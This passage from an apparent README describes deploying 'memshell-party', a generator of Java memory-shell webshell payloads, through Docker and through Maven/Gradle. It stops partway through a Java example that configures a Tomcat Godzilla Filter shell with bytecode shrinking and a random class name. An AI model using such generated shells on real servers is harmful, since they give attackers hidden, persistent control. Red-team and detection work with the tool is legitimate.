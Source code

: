 ### Local Deployment (Recommended)

> Ideal for quick deployment on internal networks or local machines. Using Docker is fast and convenient.

After deploying with Docker, access the service at http://127.0.0.1:8080

```bash
# Pull the latest image from Docker Hub
docker run --pull=always --rm -it -d -p 8080:8080 --name memshell-party reajason/memshell-party:latest

# Pull the latest image from Github Container Registry
docker run --pull=always --rm -it -d -p 8080:8080 --name memshell-party ghcr.io/reajason/memshell-party:latest

# If network quality is poor, use the Nanjing University Github Container Registry mirror
docker run --pull=always --rm -it -d -p 8080:8080 --name memshell-party ghcr.nju.edu.cn/reajason/memshell-party:latest
```

The image is stateless. To update to the latest version, simply remove the old container and create a new one:

```bash
# Remove the previously deployed container
docker rm -f memshell-party

# Use the previous deployment command to redeploy (it will automatically pull the latest image)
docker run --pull=always --rm -it -d -p 8080:8080 --name memshell-party reajason/memshell-party:latest
```

### SDK Integration into Existing Tools

> Suitable for integrating memshell payload generation into your existing tools. Supports JDK 8 and above (since v1.7.0).

1. Add the dependency using Maven or Gradle:

```xml
<!-- Maven Repo-->
<dependency>
    <groupId>io.github.reajason</groupId>
    <artifactId>generator</artifactId>
    <version>1.7.0</version>
</dependency>
```

```groovy
// Gradle Repo
implementation 'io.github.reajason:generator:1.7.0'
```

2. Example1: Generate a Tomcat Godzilla Filter memory shell:

```java
ShellConfig shellConfig = ShellConfig.builder()
        .server(Server.Tomcat)
        .shellTool(ShellTool.Godzilla)
        .shellType(ShellType.FILTER)
        .shrink(true) // Shrink bytecode size
        .debug(false) // Disable debug mode
        .build();

InjectorConfig injectorConfig = InjectorConfig.builder()
//                .urlPattern("/*")  // Custom urlPattern, defaults to /*
//                .shellClassName("com.example.memshell.GodzillaShell") // Custom shell class name, random if empty
```